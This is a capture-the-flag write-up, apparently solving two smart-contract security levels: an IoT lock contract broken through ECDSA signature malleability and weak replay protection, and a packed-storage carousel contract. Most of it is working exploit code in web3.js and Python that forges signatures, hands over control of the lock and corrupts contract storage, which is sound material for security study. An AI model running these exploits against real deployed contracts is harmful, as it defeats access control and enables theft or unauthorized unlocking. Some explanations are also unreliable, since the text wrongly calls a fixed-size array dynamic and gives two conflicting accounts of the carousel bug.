**SlockDotIt’s new product, **ECLocker**, integrates IoT gate locks with Solidity smart contracts, utilizing Ethereum ECDSA for authorization. When a valid signature is sent to the lock, the system emits an `Open` event, unlocking doors for the authorized controller. SlockDotIt has hired you to assess the security of this product before its launch. Can you compromise the system in a way that anyone can open the door?

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "openzeppelin-contracts-08/access/Ownable.sol";

// SlockDotIt ECLocker factory
contract Impersonator is Ownable {
    uint256 public lockCounter;
    ECLocker[] public lockers;

    event NewLock(address indexed lockAddress, uint256 lockId, uint256 timestamp, bytes signature);

    constructor(uint256 _lockCounter) {
        lockCounter = _lockCounter;
    }

    function deployNewLock(bytes memory signature) public onlyOwner {
        // Deploy a new lock
        ECLocker newLock = new ECLocker(++lockCounter, signature);
        lockers.push(newLock);
        emit NewLock(address(newLock), lockCounter, block.timestamp, signature);
    }
}

contract ECLocker {
    uint256 public immutable lockId;
    bytes32 public immutable msgHash;
    address public controller;
    mapping(bytes32 => bool) public usedSignatures;

    event LockInitializated(address indexed initialController, uint256 timestamp);
    event Open(address indexed opener, uint256 timestamp);
    event ControllerChanged(address indexed newController, uint256 timestamp);

    error InvalidController();
    error SignatureAlreadyUsed();

    /// @notice Initializes the contract the lock
    /// @param _lockId uinique lock id set by SlockDotIt's factory
    /// @param _signature the signature of the initial controller
    constructor(uint256 _lockId, bytes memory _signature) {
        // Set lockId
        lockId = _lockId;

        // Compute msgHash
        bytes32 _msgHash;
        assembly {
            mstore(0x00, "\x19Ethereum Signed Message:\n32") // 28 bytes
            mstore(0x1C, _lockId) // 32 bytes
            _msgHash := keccak256(0x00, 0x3c) //28 + 32 = 60 bytes
        }
        msgHash = _msgHash;

        // Recover the initial controller from the signature
        address initialController = address(1);
        assembly {
            let ptr := mload(0x40)
            mstore(ptr, _msgHash) // 32 bytes
            mstore(add(ptr, 32), mload(add(_signature, 0x60))) // 32 byte v
            mstore(add(ptr, 64), mload(add(_signature, 0x20))) // 32 bytes r
            mstore(add(ptr, 96), mload(add(_signature, 0x40))) // 32 bytes s
            pop(
                staticcall(
                    gas(), // Amount of gas left for the transaction.
                    initialController, // Address of `ecrecover`.
                    ptr, // Start of input.
                    0x80, // Size of input.
                    0x00, // Start of output.
                    0x20 // Size of output.
                )
            )
            if iszero(returndatasize()) {
                mstore(0x00, 0x8baa579f) // `InvalidSignature()`.
                revert(0x1c, 0x04)
            }
            initialController := mload(0x00)
            mstore(0x40, add(ptr, 128))
        }

        // Invalidate signature
        usedSignatures[keccak256(_signature)] = true;

        // Set the controller
        controller = initialController;

        // emit LockInitializated
        emit LockInitializated(initialController, block.timestamp);
    }

    /// @notice Opens the lock
    /// @dev Emits Open event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    function open(uint8 v, bytes32 r, bytes32 s) external {
        address add = _isValidSignature(v, r, s);
        emit Open(add, block.timestamp);
    }

    /// @notice Changes the controller of the lock
    /// @dev Updates the controller storage variable
    /// @dev Emits ControllerChanged event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    /// @param newController the new controller address
    function changeController(uint8 v, bytes32 r, bytes32 s, address newController) external {
        _isValidSignature(v, r, s);
        controller = newController;
        emit ControllerChanged(newController, block.timestamp);
    }

    function _isValidSignature(uint8 v, bytes32 r, bytes32 s) internal returns (address) {
        address _address = ecrecover(msgHash, v, r, s);
        require (_address == controller, InvalidController());

        bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
        require (!usedSignatures[signatureHash], SignatureAlreadyUsed());

        usedSignatures[signatureHash] = true;

        return _address;
    }
}
```

The goal is to **open the lock without being the authorized controller** - essentially, make anyone able to call `open()` successfully.
### 1. ECDSA Signature Malleability

Every valid ECDSA signature `(v, r, s)` has a **mathematically equivalent sibling** `(v', r, s')`:

```c
s' = curve_order - s
v' = (v == 27) ? 28 : 27
```

Both `(v, r, s)` and `(v', r, s')` recover to the **same address**. This is a well-known property of elliptic curve math. EIP-2 (in Ethereum) restricts `s` to the lower half of the curve order to prevent this in _transaction_ signatures, but `ecrecover` itself does **not** enforce this - it happily accepts both.
### 2. The Signature Hash Bug

The contract hashes the signature like this to prevent replay:

```c
bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
```

This creates a **dynamic array `uint256[]`** before encoding. The `abi.encode` of a dynamic array includes an offset pointer + length prefix, making this hash different from what you'd expect. But more critically - the **malleated signature `(v', r, s')`** produces a **completely different hash**, so it passes the `usedSignatures` check even though it recovers to the same address.
### 3. How the Constructor Reads the Signature

Look carefully at the assembly in the constructor:

```js
mstore(add(ptr, 32), mload(add(_signature, 0x60))) // v  (offset 0x60 = 96)
mstore(add(ptr, 64), mload(add(_signature, 0x20))) // r  (offset 0x20 = 32)
mstore(add(ptr, 96), mload(add(_signature, 0x40))) // s  (offset 0x40 = 64)
```

A `bytes` argument in Solidity ABI encoding is: `[length (32 bytes)][data...]`. So:

- `_signature + 0x20` = first 32 bytes of data = **r**
- `_signature + 0x40` = second 32 bytes = **s**
- `_signature + 0x60` = third 32 bytes = **v** (stored as a full 32-byte word)

The constructor reads `(r, s, v)` from the signature bytes in this layout.

But `_isValidSignature` takes `(v, r, s)` as **separate `uint8`/`bytes32` arguments** - the standard split format.

See Events:

```js
const events = await web3.eth.getPastLogs({address: contract.address, fromBlock: 0, toBlock: 'latest'})
document.body.innerHTML += '<pre id="out" style="position:fixed;top:0;left:0;background:white;z-index:9999;padding:20px;font-size:12px">'+JSON.stringify(events, null, 2)+'</pre>'
```

```js
[
  {
    "removed": false,
    "logIndex": 7,
    "transactionIndex": 2,
    "transactionHash": "0x98209ad87116f2d06aab4f41ca092c192ac51fc7fa64963429080e41c8150eac",
    "blockHash": "0xf54a678777eefd41fd2a54f0f751954fdcd3f7c032a13f76bba514e03e8f36d9",
    "blockNumber": 10394870,
    "blockTimestamp": "0x69aa8344",
    "address": "0xF4de4f66C265f3224FB5063cd608b803918e90C0",
    "data": "0x",
    "topics": [
      "0x8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e0",
      "0x0000000000000000000000000000000000000000000000000000000000000000",
      "0x0000000000000000000000009d75af88c98c2524600f20b614ee064ae356c19c"
    ],
    "id": "log_140b12f0"
  },
  {
    "removed": false,
    "logIndex": 9,
    "transactionIndex": 2,
    "transactionHash": "0x98209ad87116f2d06aab4f41ca092c192ac51fc7fa64963429080e41c8150eac",
    "blockHash": "0xf54a678777eefd41fd2a54f0f751954fdcd3f7c032a13f76bba514e03e8f36d9",
    "blockNumber": 10394870,
    "blockTimestamp": "0x69aa8344",
    "address": "0xF4de4f66C265f3224FB5063cd608b803918e90C0",
    "data": "0x00000000000000000000000000000000000000000000000000000000000005390000000000000000000000000000000000000000000000000000000069aa8344000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000601932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b9178489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2000000000000000000000000000000000000000000000000000000000000001b",
    "topics": [
      "0xac736e2e9adaa5052dee435c356ab8fe44ca4c16de5337e6b528e771ac85e97b",
      "0x000000000000000000000000d598e3c271a494d02dae95c4c532fc225db3e25d"
    ],
    "id": "log_ba90a082"
  }
]
```

**ECLocker address** = `0x000000000000000000000000d598e3c271a494d02dae95c4c532fc225db3e25d` → `0xd598e3c271a494d02dae95c4c532fc225db3e25d`

From the data I can already read the signature chunks directly:

- **r** = `1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91`
- **s** = `78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2`
- **v** = `000000000000000000000000000000000000000000000000000000000000001b` = **27**


Now run this to compute s' and get all values:

```python
# Calculate s' for ECDSA signature malleability

secp256k1_order = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

s = 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2
v = 27

s_prime = secp256k1_order - s
v_prime = 28 if v == 27 else 27

print("=== Original ===")
print(f"v  : {v}")
print(f"r  : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91")
print(f"s  : {hex(s)}")

print("\n=== Malleable (use these in Remix) ===")
print(f"v' : {v_prime}")
print(f"r  : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91")
print(f"s' : {hex(s_prime)}")

print("\n=== Remix changeController args ===")
print(f"v           : {v_prime}")
print(f"r           : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91")
print(f"s           : {hex(s_prime)}")
print(f"newController: 0x0000000000000000000000000000000000000000")
```

```js
(base) ➜  ~ python3 solve.py
=== Original ===
v  : 27
r  : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91
s  : 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2

=== Malleable (use these in Remix) ===
v' : 28
r  : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91
s' : 0x87b7639b5f24e93bf106794133370f950d5e9b00f5b5c8cbd866a487529b814f

=== Remix changeController args ===
v           : 28
r           : 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91
s           : 0x87b7639b5f24e93bf106794133370f950d5e9b00f5b5c8cbd866a487529b814f
newController: 0x0000000000000000000000000000000000000000
```

```js
const events = await web3.eth.getPastLogs({address: contract.address, fromBlock: 0, toBlock: 'latest'})
const ecLockerAddress = '0x' + events[1].topics[1].slice(26)
const data = events[1].data.slice(2)
const r = '0x' + data.slice(320, 384)
const sOrig = '0x' + data.slice(384, 448)
const v = parseInt(data.slice(448, 512), 16)
console.log("ECLocker:", ecLockerAddress, "r:", r, "s:", sOrig, "v:", v)
```

```js
const secp256k1Order = BigInt("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141")
const sPrime = "0x" + (secp256k1Order - BigInt(sOrig)).toString(16).padStart(64, "0")
const vPrime = v === 27 ? 28 : 27
console.log("vPrime:", vPrime, "sPrime:", sPrime)
```

```js
const locker = new web3.eth.Contract([{"inputs":[{"name":"v","type":"uint8"},{"name":"r","type":"bytes32"},{"name":"s","type":"bytes32"},{"name":"newController","type":"address"}],"name":"changeController","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"v","type":"uint8"},{"name":"r","type":"bytes32"},{"name":"s","type":"bytes32"}],"name":"open","outputs":[],"stateMutability":"nonpayable","type":"function"}], ecLockerAddress)
const accounts = await web3.eth.getAccounts()
await locker.methods.changeController(vPrime, r, sPrime, "0x0000000000000000000000000000000000000000").send({from: accounts[0], gas: 100000})
console.log("Controller is now address(0)!")
```

```js
await locker.methods.open(0, "0x0000000000000000000000000000000000000000000000000000000000000001", "0x0000000000000000000000000000000000000000000000000000000000000001").send({from: accounts[0], gas: 100000})
console.log("Lock opened!")
```

Submit.

**Bug 1 - Signature Malleability**: Every ECDSA signature `(v, r, s)` has a twin `(v', r, s')` where `s' = secp256k1_order - s` and `v' flips 27↔28`. Both recover the **same address**. So we used the twin to call `changeController` even without the private key.

**Bug 2 - Broken replay protection**: The contract hashes signatures like `keccak256(abi.encode([r, s, v]))` - using a dynamic array - so the twin signature produces a **different hash** and bypasses the `usedSignatures` check.

**Result**: We set `controller = address(0)`, then called `open()` with a garbage signature (`v=0`) which makes `ecrecover` return `address(0)` → matches controller → done.

**Fix**: Use OpenZeppelin's `ECDSA.recover()` which enforces `s` is in the lower half of the curve, preventing malleability entirely.
# 33 - Magic Animal Carousel

Welcome, dear Anon, to the Magic Carousel, where creatures spin and twirl in a boundless spell. In this magical, infinite digital wheel, they loop and whirl with enchanting zeal.

Add a creature to join the fun, but heed the rule, or the game’s undone. If an animal joins the ride, take care when you check again, that same animal must be there!

Can you break the magic rule of the carousel?

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();
    error CrateNotInitialized();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        uint256 crate = carousel[crateId];
        require(crate != 0, CrateNotInitialized());

        address owner = address(uint160(crate & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender);
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```

It's a circular carousel of "crates", each holding an animal name, a next crate pointer, and an owner address. All packed into a single `uint256` per crate.

```
| bits 255-176  | bits 175-160  | bits 159-0  |
| animal (80b)  | nextId (16b)  | owner (160b)|
```

- **`setAnimalAndSpin`** - adds your animal to the next crate in the carousel, advances `currentCrateId`
- **`changeAnimal`** - lets you update the animal in any crate you own (or any unowned crate)

```c
uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
```

`+` has higher precedence than `<<` in Solidity, so this is actually:

```c
<< (160 + 16)  =  << 176  // correct by accident
```

Not the main bug but worth noting.

In `setAnimalAndSpin`, animal is stored at `<< 160 + 16` = `<< 176`. But in `changeAnimal`:

```c
carousel[crateId] = (encodedAnimal << 160) | ...
```

It shifts by only `160` instead of `176` - so the animal **overlaps the nextId field** (bits 175-160), **corrupting the carousel pointer**.

`setAnimalAndSpin` does `encodeAnimalName(animal) >> 16` before storing, but `changeAnimal` uses `encodeAnimalName(animal)` directly with no `>> 16`, then shifts by `160` instead of `176`. The net result is the animal data lands 16 bits lower than intended - right on top of `nextId`.

So, By carefully crafting an animal name, you can use `changeAnimal` to overwrite the `nextId` field of a crate, making it point to itself - so `currentCrateId` never advances and the carousel loops back to the wrong crate, breaking the rule that "the same animal must be there".

The vulnerability comes from **Solidity storage packing**.

Inside the contract, multiple variables are stored in **the same storage slot**.

Example layout:

```
| animal (10 bytes) | nextCrateId (2 bytes) | owner (20 bytes) |
```

However, the function:

```
function changeAnimal(string memory newAnimal, uint256 crateId)
```

allows writing **up to 12 bytes**.

This creates an **overflow into the adjacent variable**.

So if we pass **12 characters**, the last **2 bytes overwrite `nextCrateId`**.

That corrupts the carousel pointer.

- Insert an animal into the carousel.
- Overflow the packed storage using `changeAnimal`.
- This overwrites `nextCrateId`.
- Spin again - the carousel returns the wrong crate.
- The contract detects the mismatch and the level is solved.

```js
const carousel = new web3.eth.Contract([
  {"inputs":[{"name":"animal","type":"string"}],"name":"setAnimalAndSpin","outputs":[],"stateMutability":"nonpayable","type":"function"},
  {"inputs":[{"name":"animal","type":"string"},{"name":"crateId","type":"uint256"}],"name":"changeAnimal","outputs":[],"stateMutability":"nonpayable","type":"function"},
  {"inputs":[{"name":"","type":"uint256"}],"name":"carousel","outputs":[{"name":"","type":"uint256"}],"stateMutability":"view","type":"function"},
  {"inputs":[],"name":"currentCrateId","outputs":[{"name":"","type":"uint256"}],"stateMutability":"view","type":"function"}
], instance)
```

Create first crate:

```js
await carousel.methods.setAnimalAndSpin("Dog").send({from: player})
```

This creates **crate 1**.

```js
await carousel.methods.currentCrateId().call()

"1"
```

We must send **12 bytes**:

```
10 bytes -> animal
2 bytes -> overwrite nextCrateId
```

This corrupts the **carousel pointer**.

```js
await carousel.methods.changeAnimal(
"\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff",
1
).send({from: player})
```

Now Spin again:

```js
await carousel.methods.setAnimalAndSpin("Cat").send({from: player})
```

Now the carousel will read from the **wrong crate**, breaking the internal check.

Submit now.

---
